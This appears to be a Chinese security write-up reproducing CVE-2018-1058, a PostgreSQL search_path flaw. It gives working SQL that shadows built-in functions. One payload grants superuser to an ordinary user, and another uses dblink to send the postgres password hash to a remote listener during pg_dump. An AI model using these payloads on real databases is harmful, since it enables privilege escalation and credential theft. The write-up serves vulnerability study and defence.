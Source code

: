 （CVE-2018-1058）PostgreSQL 提权漏洞
====================================

一、漏洞简介
------------

PostgreSQL
是一款关系型数据库。其9.3到10版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

二、漏洞影响
------------

PostgreSQL 9.3-10

三、复现过程
------------

### 利用方式

在Postgres的commit记录中，有如下[commit](https://github.com/postgres/postgres/commit/5770172cb0c9df9e6ce27c507b449557e5b45124):

    As special exceptions, the following client applications behave as documented
    regardless of search_path settings and schema privileges: clusterdb
    createdb createlang createuser dropdb droplang dropuser ecpg (not
    programs it generates) initdb oid2name pg_archivecleanup pg_basebackup
    pg_config pg_controldata pg_ctl pg_dump pg_dumpall pg_isready
    pg_receivewal pg_recvlogical pg_resetwal pg_restore pg_rewind pg_standby
    pg_test_fsync pg_test_timing pg_upgrade pg_waldump reindexdb vacuumdb
    vacuumlo.  Not included are core client programs that run user-specified
    SQL commands, namely psql and pgbench.

上面的commit提到了两类的client
applications。下文的较为直观的利用方式一是针对第二类client
applications（比如psql），然后利用方式二是通过第一类client
applications来执行任意代码，相比较下更为隐蔽。

### 利用方式一

在系统schema`pg_catalog`中，定义了大量的函数，用pgAdmin3查看:

![1.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId27.png)

以函数abs系列为例，接受一个类型为bigint\\smallint\\intger\\real\\double
precision\\numeric的参数，返回其绝对值。倘若我们传送一个非数值类型的参数呢，比如text，

    evil=> select abs('chybeta');

由于并没有参数类型为text的abs函数，会直接报错：

![2.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId28.png)

但postgres提供了自定义函数的功能！我们创建如下函数：

    CREATE FUNCTION public.abs(TEXT) RETURNS TEXT AS $$
         SELECT 'you are hacked by ' || $1;
    $$ LANGUAGE SQL IMMUTABLE;

当我们再次执行同样的查询语句，根据postgres的设计流程，它会先去查找系统schema`pg_catalog`，但由于参数类型不同没有找到，接着按照`search_path`中的顺序查找，而我们定义的`abs(text)`存在于schema`public`中，参数符合，因此pg理所当然地执行了我们定义的函数:

![3.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId29.png)

注意一个点，这个函数是定义在schema`public`中的，也就是说对于进入到这个数据库的任何用户，只要他们调用了abs，且参数为text，都有可能会诱发恶意的代码执行。比如以超级用户postgres执行:

![4.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId30.png)

不过有谁会傻乎乎的去运行一个莫名其妙的abs(text)呢？因此真正的攻击手段是将过程隐藏到看似正常的数据库查询中。这次我们选择schema`pg_catalog`中的另外一类函数比如lower(text)，upper(text)，它们分别将text类型的参数转成小写和大写，不过系统没有提供接受varchar参数的lower和upper，尽管可以进行类型转换，但对pg而言，最好的选择当然是参数类型恰好符合的恶意自定义函数。

创建一个表，值的类型为varchar：

    CREATE TABLE public.hahahaha AS SELECT 'CHYBETA'::varchar AS contents;

创建对应的恶意函数:

    CREATE FUNCTION public.lower(varchar) RETURNS TEXT AS $$
         SELECT 'you are hacked by ' || $1;
    $$ LANGUAGE SQL IMMUTABLE;

对绝大部分用户而言，他们可能看大写的`CHYBETA`不爽，然后执行了lower函数，但在不知道/清楚类型的情况下，他们执行的是public中的恶意自定义函数。

![5.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId31.png)

只能打印`you are hacked by XXX`有毛用！！由于恶意自定义函数可以被超级用户调用到，因此也就有了相应的执行权限，最简单的比如提权。

先来看看权限情况（以超级用户为例），可以看到只有postgres的rolsuper是t，即true:

![6.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId32.png)

在用户chybeta登陆进evil数据库后，他创建了如下`upper函数`:

    CREATE FUNCTION public.upper(varchar) RETURNS TEXT AS $$
        ALTER ROLE chybeta SUPERUSER;
        SELECT pg_catalog.upper($1);
    $$ LANGUAGE SQL VOLATILE;

![7.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId33.png)

注意这里是`VOLATILE`，具体原因参考
[官方文档:xfunc-volatility](https://www.postgresql.org/docs/8.2/static/xfunc-volatility.html)

另外一张table，小写的chybeta:

    CREATE TABLE public.hehehehe AS SELECT 'chybeta'::varchar AS contents;

管理员一看，心中不爽：小写小写就知道小写，然后:

![8.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId35.png)

看上去一切正常，大写的大写。回到用户chybeta处，查看一下权限:

![9.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId36.png)

已经成为超级用户。

利用方法有很多，理论上只要能创建恶意函数，管理员调用，就是以管理员身份去执行恶意sql语句/代码。在这种情况中，如commit所说`Not included are core client programs that run user-specified SQL commands, namely psql and pgbench.`，被攻击用户是知道自己执行的sql语句，只是其中的某个function意义被掉包了。

### 利用方式二

安装完PostgreSQL后还会有一系列的工具，比如pg\_dump、pg\_dumpall等等。基于利用方式一，在创建了恶意函数的基础之上，可以通过这些工具来执行恶意函数。这些工具在执行过程中会动态设定`search_path`，导致`public`的优先级比`pg_catalog`高，也就是说即使是在相同类型相同参数相同函数名的情况下，会选择`public`中的函数。相比第一种而言隐蔽性更强，同时有更高的可触发性。

为利用pg\_dump中的sql语句，可以利用log来观察执行过程。在superuser的权限下`show log_directory;`找到log目录，将目录下postgresql.conf中的约莫455行改为`log_statement = all`。重启PostgreSQL后，使用pg\_dump工具执行备份命令:

    pg_dump -U postgres -f evil.bak evil

同时观察log输出，查找`statement: SET search_path =`，最后在某处我发现了一段这样的log:![10.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId38.png)

可以看到在这段log中，有一处的`array_to_string`是没有指定schema的。在系统schema中它的定义如下：

![11.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId39.png)

在这里由于已经设定了`search_path`，为了能直接适配，这里创建的恶意函数的参数个数和类型都必须和`pg_catalog`中定义的相同，倘若不同则会按顺序匹配到正确的函数。

因为pg\_dump在运行过程中开启的是`read only transaction`，根据[官方文档](https://www.postgresql.org/docs/9.1/static/sql-set-transaction.html)：

    The transaction access mode determines whether the transaction is read/write or read-only. Read/write is the default. When a transaction is read-only, the following SQL commands are disallowed: INSERT, UPDATE, DELETE, and COPY FROM if the table they would write to is not a temporary table; all CREATE, ALTER, and DROP commands; COMMENT, GRANT, REVOKE, TRUNCATE; and EXPLAIN ANALYZE and EXECUTE if the command they would execute is among those listed. This is a high-level notion of read-only that does not prevent all writes to disk.

是不允许执行下类操作的:

1.  INSERT, UPDATE, DELETE, COPY FROM
2.  all CREATE, ALTER, and DROP commands
3.  COMMENT, GRANT, REVOKE, TRUNCATE; and EXPLAIN ANALYZE and EXECUTE if
    the command they would execute is among those listed

不过并没有禁止`select`语句。如果开启了dblink，则可以利用查询来带出数据，比如用dblink\_connect。因此我们创建这样的一个恶意函数：

    CREATE FUNCTION public.array_to_string(anyarray,text) RETURNS TEXT AS $$
        select dblink_connect((select 'hostaddr=192.168.248.132 port=12345 user=postgres password=chybeta sslmode=disable dbname='||(SELECT passwd FROM pg_shadow WHERE usename='postgres'))); 
        SELECT pg_catalog.array_to_string($1,$2);
    $$ LANGUAGE SQL VOLATILE;

远程vps上监听：

    nc -lvv 12345

当管理员进行数据库备份时：

    pg_dump -U postgres -f evil.bak evil

![12.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId41.png)

即可得到管理员密码：

![13.png](./.resource/(CVE-2018-1058)PostgreSQL提权漏洞/media/rId42.png)

参考链接
--------

> https://xz.aliyun.com/t/2109\#toc-1
